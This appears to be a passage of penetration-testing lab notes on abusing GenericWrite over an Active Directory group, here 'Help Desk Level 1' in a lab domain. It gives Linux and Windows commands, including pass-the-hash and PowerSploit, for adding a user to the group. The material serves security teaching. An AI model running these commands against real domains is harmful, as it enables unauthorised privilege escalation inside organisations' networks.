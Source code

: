 Our user damundsen has GenericWrite privileges over the `Help Desk Level 1` group. This means, among other things, that the attacker can add a user/group/computer to a group.

=== "Linux"

    ```bash
    # With net and cleartext credentials (will be prompted) 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST" 
    
    # With net and cleartext credentials 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST" 
    
    # With Pass-the-Hash 
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```

=== "Windows"

    ```powershell
    # Command line
	net group 'Help Desk Level 1' $user /add /domain 
	
	# Powershell: Active Directory module 
	Add-ADGroupMember -Identity 'Help Desk Level 1' -Members $user
	
	# Powershell: PowerSploit module 
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members $user
    ```

=== "Windows with SecureString"

	```powershell
	# Creating a SecureString Object using damundsen
	$SecPassword = ConvertTo-SecureString '$damundsenPassword' -AsPlainText -Force
	$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
		
	# Add damundsen to the group
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
		
	# Confirming damundsen was Added to the Group
	Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
